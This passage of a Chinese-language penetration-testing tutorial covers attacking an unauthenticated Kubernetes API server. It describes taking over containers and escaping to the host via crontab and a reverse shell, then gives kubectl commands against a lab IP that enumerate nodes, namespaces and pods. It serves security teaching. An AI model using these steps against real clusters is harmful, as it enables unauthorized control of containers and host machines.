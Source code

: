 利用方式按严重程度可分为以下两种攻击类型：

-   通过利用kubectl客户端调用Secure Port接口去控制已经创建好的容器
-   通过创建一个自定义的容器将系统根目录的文件挂在到/mnt目录，之后通过修改/mnt/etc/crontab来影响宿主机的crontab，通过反弹Shell拿到宿主机的权限

**容器管理**

Step 1：获取目标机器的信息

```plain
#格式说明
kubectl -s ip:port get nodes

#执行实例
kubectl -s 192.168.17.144:8080 get nodes
```

[![](assets/1698893355-f12a9f312a47980eda6fdf5358d91a66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164911-5e4daf24-7313-1.png)

备注说明：如果出现"Error from server (NotFound): the server could not find the requested resource"报错，可能是因为Kubectl客户端和K8s的Server端版本不相同导致的需要进行降级操作，此时需要将版本降低到和目标主机版本一致即可

```plain
curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.8.7/bin/linux/amd64/kubectl
chmod 777 kubectl
mv /usr/bin/kubectl /usr/bin/kubectl.bak
mv kubectl /usr/bin/kubectl
```

Step 2：获取命名空间

```plain
kubectl -s 192.168.17.144:8080 get namespace
```

[![](assets/1698893355-efe0a52fd4ce5b599010baa1a9e67c20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164941-700479a0-7313-1.png)  
Step 3：获取某一命名空间下的Pod列表

```plain
kubectl -s 192.168.17.144:8080 get pod -n default
```
